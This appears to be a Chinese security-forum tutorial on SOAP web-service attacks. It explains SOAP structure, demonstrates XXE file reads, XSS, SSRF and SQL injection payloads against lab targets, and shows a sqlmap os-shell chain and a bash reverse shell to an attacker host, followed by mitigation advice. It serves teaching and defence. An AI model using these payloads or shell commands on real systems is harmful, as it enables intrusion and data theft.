# SOAP协议安全攻防录 - 先知社区

SOAP协议安全攻防录

- - -

## 文章前言

在HW期间针对给定的目标范围进行信息收集的阶段，我们时而会遇到WSDL(Web Services Description Language)的XML格式文件，其定义了Web服务的接口、操作、消息格式和协议细节，在WSDL文件中很多时候都会指定服务的端口类型(Port Type)和绑定(Binding)，绑定定义了如何使用SOAP协议进行通信以及消息的格式和传输细节，而这很多时候会被对此不是很了解的红队队员会直接进行忽略，而部分对此有了解红队的会对接口进行Fuzzingc测试，试图找寻诸如命令执行、SQL诸如等漏洞，力争获取目标服务器的权限，然而很多时候我们可能会找寻到SQL诸如漏洞，但是有时候运气不好会发现目标站点后端为MySQL数据库，而不是我们所期望的SQL Server数据库，权限也并没有那么高，基于以上背景故此对SOAP协议的安全测试进行一个全方位的深入刨析，期间会涉及到SOAP的一些基本原理，以及靶场的示例、靶机的攻防对抗、红队的评估辛酸史等内容

## 基本介绍

SOAP(Simple Object Access Protocol，简单对象访问协议)是一种轻量的、简单的、基于XML(标准通用标记语言下的一个子集)的通信协议，它被设计成在WEB上交换结构化的和固化的信息，主要用于在网络上进行应用程序之间的通信，SOAP协议的设计目标是实现跨平台、跨语言的通信并提供一种标准的方式来定义和交换结构化的信息，它在构建分布式系统和实现面向服务的架构中发挥了重要作用，它也被视为是一种用于交换结构化信息的协议

## 核心元素

SOAP请求报文的组成部分包括以下几个方面：

-   Envelope(信封)：SOAP请求报文的最外层是一个"soap:Envelope"元素，它包裹了整个消息体，它定义了SOAP消息的XML命名空间和必需的XML声明
-   Header(头部)：SOAP头部信息"soap:Header"元素是可选的，它主要用于包含与消息相关的附加信息，头部可以包含一些可选的SOAP头部块，这些块可以传递安全凭证或其他自定义的扩展信息
-   Body(主体)：SOAP主体包含了实际的SOAP消息体，它定义了要执行的操作和相关的参数，在SOAP请求中"soap:Body"元素包含了要调用的方法和参数的值，在SOAP响应中soap:Body元素包含了返回的结果或错误信息
-   Fault(故障)：SOAP消息的soap:Body元素可以借助"soap:Fault"元素来描述错误的详细信息，soap:Fault元素包含了一个faultcode元素用于指定错误代码，一个faultstring元素用于指定错误描述以及一个可选的detail元素用于提供更多的错误信息

## 协议版本

SOAP协议有两个版本—Soap1.1和Soap1.2版本，以下是SOAP 1.1请求和响应示例，所显示的占位符需替换为实际值

```plain
POST /service1.asmx HTTP/1.1
Host: x.x.x.x
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/HelloWorld"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <HelloWorld xmlns="http://tempuri.org/" />
  </soap:Body>
</soap:Envelope>
```

```plain
HTTP/1.1 200 OK
Content-Type: text/xml; charset=utf-8
Content-Length: length

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <HelloWorldResponse xmlns="http://tempuri.org/">
      <HelloWorldResult>string</HelloWorldResult>
    </HelloWorldResponse>
  </soap:Body>
</soap:Envelope>
```

以下是SOAP 1.2请求和响应示例，所显示的占位符需替换为实际值：

```plain
POST /service1.asmx HTTP/1.1
Host: x.x.x.x
Content-Type: application/soap+xml; charset=utf-8
Content-Length: length

<?xml version="1.0" encoding="utf-8"?>
<soap12:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap12="http://www.w3.org/2003/05/soap-envelope">
  <soap12:Body>
    <HelloWorld xmlns="http://tempuri.org/" />
  </soap12:Body>
</soap12:Envelope>
```

```plain
HTTP/1.1 200 OK
Content-Type: application/soap+xml; charset=utf-8
Content-Length: length

<?xml version="1.0" encoding="utf-8"?>
<soap12:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap12="http://www.w3.org/2003/05/soap-envelope">
  <soap12:Body>
    <HelloWorldResponse xmlns="http://tempuri.org/">
      <HelloWorldResult>string</HelloWorldResult>
    </HelloWorldResponse>
  </soap12:Body>
</soap12:Envelope>
```

SOAP 1.1和SOAP 1.2版本差异对比说明如下：  
相同点：

-   请求方式相同：都是使用POST
-   协议内容相同：都有Envelope和Body标签

不同点：

-   数据格式不同：content-type不同，SOAP1.1：text/xml;charset=utf-8，SOAP1.2：application/soap+xml;charset=utf-8
-   命名空间不同：SOAP1.1：[http://schemas.xmlsoap.org/soap/envelope](http://schemas.xmlsoap.org/soap/envelope) ，SOAP1.2：[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)

## 安全漏洞

在红队评估过程中我们看到的SOAP型Web Service服务其实也是存在诸多的安全漏洞，它和常规的WEB漏洞并没有区别，只不过就是载荷的构造需要满足一些格式，常见的一些CSRF、XSS、XXE、SQL注入、XPath注入、命令注入等在SOAP型的Web Service中也很是常见，这里我们首先对一些常见的漏洞进行一个简单的演示介绍

### XXE攻击

如果包含外部实体引用的XML输入由弱配置的XML解析器处理时，会发生XML外部实体(XXE)注入，此类攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造等，常见的是Web服务或API支持来自用户的XML数据，在DVWS中存在一个SOAP服务器，我们可以通过访问显示SOAP服务器支持的操作的[http://192.168.204.160/dvwsuserservice?wsdl](http://192.168.204.160/dvwsuserservice?wsdl) 来浏览该服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115648-ef966f2a-b747-1.png)  
WSDL操作表明可以向SOAP服务发送以下请求来查看用户是否存在

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 469

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">geroet</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115712-fdcf0ed0-b747-1.png)  
SOAP服务器用来解析该请求的XML库允许使用外部实体，因此我们可以利用它从SOAP服务中读取任意文件

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115730-08aea14e-b748-1.png)

### XSS攻击

跨站脚本(XSS)攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在SOAP中的XSS其实和传统的Web应用中的XSS也相差不大，只是数据包的构造方式有一些差别，在DVWS管理员用户搜索区域中存在XSS漏洞，我们可以发送HTML编码后的JavaScript到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```plain
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115755-17ca82a6-b748-1.png)  
有时候我们也可以多留意一下注册类的接口：

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115906-4208cd98-b748-1.png)  
在这里我们还要扩展一个通过上传XML文件导致XSS的示例，构造如下带有XHTML的XML文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115934-527a42b0-b748-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120115941-56874ea2-b748-1.png)

### SSRF攻击

服务器端请求伪造(SSRF)在SOAP中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些API或RPC服务可能提供从其他API/应用程序以HTTP请求参数的形式获取数据的功能，在这些情况下，我们可以利用API来执行端口扫描等操作，在DVWS应用程序的端口9090中可以使用XML-RPC服务，在DVWS节点应用程序中有关此XML-RPC服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```plain
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120008-667fa1ec-b748-1.png)

### SQL Injection

在打攻防的时候我们有时候在信息收集时可以多多留意一下类似下面的此类文档，不要直接将其掠过，有时候对接口进行调用测试时你会发现其实这里可能会有意想不到的收获——例如：SQL Injection  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120022-6f3d3c7c-b748-1.png)  
点击上面的API接口我们可以查看到对应的接口的调用说明  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120037-77fee7e8-b748-1.png)  
这里我们举一个之前在某省市打HW的时候发现的一个注入点，但是也是根据示例报文进行了一个简单的Fuzz测试发现竟然存在SQL注入漏洞，大家后续在打攻防的时候可以留意一下看看，说不上就有SQL注入+后端SQL Server数据库  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120051-804d4ca0-b748-1.png)  
跑SQLMap如下，其余后续操作不在赘述(主要也是当时没把图给截全，哎....)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120106-893d7b1e-b748-1.png)

## 靶机攻防

下面我们通过一个Vulhub的靶场对SOAP的利用进行深入刨析：

### 信息收集

首先使用位于同一网段的Kali Linux攻击主机做个网段的探测，用于发现目标主机的IP地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120128-965b48f8-b748-1.png)  
随后对目标主机的IP地址进行一个简易的探测，主要测试目标主机开启的端口和服务：

```plain
nmap -T4 -A -v 192.168.204.161
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120156-a6dc7a6c-b748-1.png)  
访问网站会出现以下页面  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120206-ad2f3e40-b748-1.png)  
随后点击链接会看的如下的界面，可以看到这里提供了四个方法类：AddUser、ListUsers、GetUser、DeleteUser  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120217-b3d9d192-b748-1.png)

### 漏洞利用

随后我们点击上面的Messsage Layout可以查看对应的接口的调用方法以及参数选项  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120233-bd25a776-b748-1.png)  
在这里我们选择GetUser对此接口进行Fuzzing测试

```plain
al1ex 'or 1=1 ---
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120251-c7d4a050-b748-1.png)

```plain
al1ex 'or 1=2 ---
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120304-cfdcbe18-b748-1.png)  
从上面的回显结果中我们可以看到明显的差异，说明此处存在SQL注入漏洞，随后访问[http://192.168.204.161/Vulnerable.asmx?wsdl](http://192.168.204.161/Vulnerable.asmx?wsdl) 并使用Burpsuite抓包，借助Burpsuite的wsdlser插件对WSDL进行解析  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120319-d87902fc-b748-1.png)  
随后我们可以看到以下解析后的请求接口，这里会看到两个重名的接口名称是因为这是两个协议版本的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120330-df452a2a-b748-1.png)  
随后复制Getuser的报文并使用burpsuite跑SQL注入

```plain
POST /Vulnerable.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=BD6679E38730DA96AAD4121C
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/GetUser
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.161
Content-Length: 302

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetUser>
         <!--type: string-->
         <tem:username>geroet*</tem:username>
      </tem:GetUser>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120423-fedd8c88-b748-1.png)

```plain
sqlmap -r soap.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120437-070f0076-b749-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120444-0b7b3fe4-b749-1.png)  
跑数据库

```plain
sqlmap -r soap.txt --dbs
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120504-176e6c54-b749-1.png)  
跑表名

```plain
sqlmap -r soap.txt -D public --tables --dump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120527-24a3fbf0-b749-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120534-28d9c858-b749-1.png)

### GetShell

后端数据库为postgresql，所以我们可以尝试通过Sqlmap的--os-shell来获取shell权限，不过在此之前我们需要先检查当前用户的权限是否为DBA权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --is-dba
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120640-50b1b192-b749-1.png)  
从上面的执行结果可以看到属于dba权限，随后我们直接通过--os-shell获取权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --os-shell --batch
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120716-65df0902-b749-1.png)  
紧接着我们可以执行各类系统命令：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120725-6b140b66-b749-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120743-7624216c-b749-1.png)  
随后我们去尝试反弹shell，发现bash反弹(/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1)失败，随后经历过一些尝试发现可以使用nc来反弹shell，执行结果如下：

```plain
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/192.168.204.135/4444 0>&1'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120821-8cb215ec-b749-1.png)  
随后我们在攻击主机上获取到目标服务器的shell，至于后续的提权就不做演示了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120834-947c87ee-b749-1.png)  
备注：这里有一个坑点需要补充说明一下，就是如果你使用Kali linux中的sqlmap时可能会出现以下错误提示信息，这是因为Sqlmap版本问题，而且你更新之后估计也不得行，需要重新进行手动安装才可以解决，之前在这个地方耽误了好久好久，以为是后端数据库的问题，但是后期一想有点不太对，随后去尝试更新了Sqlmap，发现可以成功解决，最好就是建议去手动安装一次SqlMap哈，不要怕麻烦  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120846-9ba38842-b749-1.png)

## 工具测试

在遇到类似[http://192.168.204.161/Vulnerable.asmx?wsdl](http://192.168.204.161/Vulnerable.asmx?wsdl) 的错乱的文件时，我们除了可以直接看提供的SOAP接口信息之外，我们还可以借助Burpsuite的WSDLer插件对此进行解析  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120939-baf86d20-b749-1.png)  
下面时我们对wsdl请求在burpsuite中的解析操作后的界面,这样更加友好，同时如果是授权情况下也可以考虑使用AWVS进行安全评估，部分的SQL注入类漏洞会有一定的成效  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120120953-c3b94128-b749-1.png)

## 防护措施

针对SOAP(Simple Object Access Protocol)接口的安全漏洞，我们可以通过以下防护措施来确保SOAP接口的安全性：  
1、输入验证和过滤：对于接收到的SOAP消息中的所有输入数据进行严格的验证和过滤，以防止恶意数据注入或攻击，验证和过滤应包括输入长度、数据类型、格式、特殊字符等方面的检查，例如：在接收SOAP消息后，对其中的参数进行验证和过滤，确保输入符合预期的格式和范围：

```plain
public void processSOAPRequest(SOAPMessage request) {
    SOAPBody soapBody = request.getSOAPBody();
    String parameter = soapBody.getElementsByTagName("parameter").item(0).getTextContent();

    // 对参数进行验证和过滤
    if (!isValidParameter(parameter)) {
        throw new IllegalArgumentException("Invalid parameter.");
    }

    // 继续处理请求...
}
```

2、输出编码：在将数据返回给SOAP客户端时确保对输出进行适当的编码以防止跨站脚本攻击(XSS)等漏洞，常见的输出编码包括HTML实体编码和XML实体编码，例如：在返回包含用户输入的数据时对输出进行HTML实体编码

```plain
public SOAPMessage processSOAPRequest(SOAPMessage request) {
    // 处理请求...

    String responseData = "<response>" + userGeneratedData + "</response>";
    String encodedResponseData = StringEscapeUtils.escapeHtml(responseData);

    SOAPMessage response = createSOAPResponse(encodedResponseData);
    return response;
}
```

3、认证和授权：对于需要进行身份验证和授权的SOAP接口，确保只有经过认证和授权的用户才能访问敏感操作，使用安全机制，例如：基于Token的身份验证、数字证书等

```plain
public void processSOAPRequest(SOAPMessage request) {
    // 身份验证
    if (!isAuthenticated(request)) {
        throw new SecurityException("Unauthorized access.");
    }

    // 授权检查
    if (!isAuthorized(request)) {
        throw new SecurityException("Access denied.");
    }

    // 继续处理请求...
}
```

4、安全传输：确保SOAP消息的传输过程中使用安全的通信协议，可以使用HTTPS以加密和保护数据的机密性和完整性，例如：在配置SOAP服务时将通信协议配置为 HTTPS

```plain
<bindings>
    <binding name="SOAPSecureBinding">
        <security mode="Transport">
            <transport clientCredentialType="None" />
        </security>
    </binding>
</bindings>
```

## 文末小结

本篇文章我们主要介绍了SOAP接口的核心概念(包括核心元素、协议版本)，同时对SOAP接口存在的安全风险点进行了归纳整理并通过我们护网期间可能遇到的SOAP类型的案例进行了简单介绍，然后通过一个Vulhub的靶场对SOAP接口的探测、文档解析、接口调用和后利用等内容进行了深入的刨析，最后对SOAP接口的安全防护给出了修复措施以及示例代码，在最后有两个小建议，其中一个是对红队人员的，有时候可以对SOAP接口进行深入评估，尤其是对各个参数和接口的调用进行测试，有时候就会有意想不到的收获，其次是对研发人员的就一个小建议，如果没有过多的必要则将接口进行认证鉴权，同时不要向外披露WSDL文件，缩小攻击面

## 参考链接

[https://www.ibm.com/docs/zh/cics-ts/beta?topic=cics-security-soap-web-services](https://www.ibm.com/docs/zh/cics-ts/beta?topic=cics-security-soap-web-services)  
[https://baike.baidu.com/item/%E7%AE%80%E5%8D%95%E5%AF%B9%E8%B1%A1%E8%AE%BF%E9%97%AE%E5%8D%8F%E8%AE%AE/3841505?fromtitle=SOAP&fromid=4684413&fr=aladdin](https://baike.baidu.com/item/%E7%AE%80%E5%8D%95%E5%AF%B9%E8%B1%A1%E8%AE%BF%E9%97%AE%E5%8D%8F%E8%AE%AE/3841505?fromtitle=SOAP&fromid=4684413&fr=aladdin)
